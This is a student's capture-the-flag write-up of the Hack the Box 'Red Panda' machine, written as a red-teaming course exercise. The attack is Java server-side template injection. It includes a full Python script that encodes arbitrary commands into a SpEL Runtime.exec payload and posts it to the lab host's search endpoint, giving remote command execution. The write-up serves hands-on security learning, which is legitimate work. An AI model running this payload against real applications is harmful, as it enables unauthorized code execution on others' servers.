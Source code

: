 ```yaml
---
layout: single
title: Hack the Box - Red Panda
---
```


## SSTI - Red Panda writeup

As an exercise for the red-teaming specialisation, our teacher encouraged us to start using Hack the Box environment to learn hacking in practice. Because I do not have 
much CTF and hands-on hacking experience, I have decided to start with an 'easy' machine - Red Panda

![Redpanda main page](../../assets/img/redpanda/redpanda.png)

The website displays a search bar and some text. I tried searching different words, but the searched returned none. However, when I searched for an empty phrase, this
was the result:

![Greg panda](../../assets/img/redpanda/greg.png)

I tried sending multiple SQLI payloads, but the service seemed immune to database injection attacks. A colleague gave me a tip to try using Server Side Template Injecton.
Because I have never heard of this technique, I had to spend some time on learning it and adjusting it to the service. Finally, I found the proper characters to enclose 
my payload with - _*{ malicious code }_. I tried getting all environment variables from the host.

![Server's environment variables](../../assets/img/redpanda/get_env.png)

I tried testing multiple payloads from *[PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java)*,
and it turned out I can only execute commands on the host OS when encoding them into characters from integers. Therefore, I have decided to create a script which will
allow me to encode commands and send them to the vulnerable endpoint.

```python
import sys
import requests
from bs4 import BeautifulSoup as bs
# prepare payload
first = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("
last = ").getInputStream())}"
mid = ""
command = sys.argv[1]
for i, c in enumerate(command):
    if i == 0:
        mid += f"T(java.lang.Character).toString({ord(c)})"
    else:
        mid += f".concat(T(java.lang.Character).toString({ord(c)}))"
payload = first + mid + last
# send post request to /search
ip = "10.10.11.170"
endpoint = "search"
res = requests.post(f"http://{ip}:8080/{endpoint}", data={'name': payload} )
soup = bs(res.content, "html.parser")
searched = soup.find("h2", {"class": "searched"})
print(searched.get_text())
```

The script worked and I managed to gain user access to the system. I was able to read the flag in user's home directory.

![User flag](../../assets/img/redpanda/user.png)
